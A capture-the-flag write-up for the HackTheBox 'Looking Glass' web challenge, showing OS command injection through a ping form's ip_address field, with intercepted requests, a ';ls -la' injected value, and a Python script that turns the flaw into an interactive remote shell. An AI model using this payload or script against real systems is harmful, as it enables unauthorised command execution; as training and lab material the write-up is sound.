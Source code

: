 ```yaml
---
title: "HackTheBox Writeup- Looking Glass"

categories: [HacktheBox - Challenges]

tags: [easy,RCE,Scripting,Web]

image: https://d3an9kf42ylj3p.cloudfront.net/uploads/2012/12/Looking-Glass-300x300.jpg
---
```



## CHALLENGE DESCRIPTION

We've built the most secure networking tool in the market, come and check it out!


## PROOF OF CONCEPT
The Looking  Glass website allow the user the troubleshoot and check status of the server the server’s through `ping` and `traceroute` commands 

![Untitled](/assets/img/1.png)

![un](/assets/img/Untitled.png)
&nbsp;

By intercepting (Burp_suite) the request , it sends a `POST` request to the server to perform a ping request to the IP `206.189.120.31` 

```bash
POST / HTTP/1.1
Host: 206.189.120.31:31868
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://206.189.120.31:31868
Connection: close
Referer: http://206.189.120.31:31868/
Upgrade-Insecure-Requests: 1

test=ping&ip_address=206.189.120.31&submit=Test
```

&nbsp;

In the Response , It  can observed that  the output put of ping .

![Untitled](/assets/img/looking_glass/Untitled1.png)

&nbsp; 

The  semicolon (`;`) either in windows command Prompt or linux terminal is used to seperate multiple command in a single line .
&nbsp; 

In the below request the , after the parameter `ip_address` ,inserted the semicolon  to separate the first command , so any next command command can be executed. 

Now, next to the parameter `ip_address=;ls+la`   is placed to verify  the remote code can be executed .

```python
POST / HTTP/1.1
Host: 206.189.120.31:31868
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://206.189.120.31:31868
Connection: close
Referer: http://206.189.120.31:31868/
Upgrade-Insecure-Requests: 1

test=ping&ip_address=;ls+-la&submit=Test
```

&nbsp; 

From the below output of list view of the `ls+-la` command ,it is visible that the aribitary remote commands can be executed on the server.

![Untitled](/assets/img/looking_glass/Untitled2.png)

&nbsp; 

In the root directory(`/`) , have the flag to the challenge.

![Untitled](/assets/img/looking_glass/Untitled3.png)

&nbsp; 

I have writren a python script to automate the process to run shell command from command line

```python
import requests,sys
from bs4 import BeautifulSoup as bs
import urllib

# your ip here 
ip = '206.189.120.31:31868' 

headers = {
        'Host': f'{ip}',
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-GB,en;q=0.5',
        # 'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        # 'Content-Length': '36',
        'Origin': f'http://{ip}',
        'Connection': 'close',
        'Referer': f'http://{ip}',
        'Upgrade-Insecure-Requests': '1',
}

try:
    with requests.session() as s:
        request = s.get(f'http://{ip}/')
        if request.ok:
            while True:
                try:
                    cmd = input("\033[0;32mRCE\033[0m -> ")
                    command = urllib.parse.unquote(cmd)
                    data = f'test=ping&ip_address=;{command}&submit=Test'
                    response = s.post(f'http://{ip}/', headers=headers, data=data, verify=False)
                    resp = response.content.decode()
                    soup = bs(resp,"html.parser")
                    text = soup.find_all('textarea')[0].text
                    print(text.strip())
                except KeyboardInterrupt:
                        sys.exit()
                except ConnectionError:
                        print('lost connection to the Server')
                        sys.exit()
        else:
            print("check the connection")         
finally:
    pass
```

&nbsp; 

This the output of the python script

![Untitled](/assets/img/looking_glass/Untitled4.png)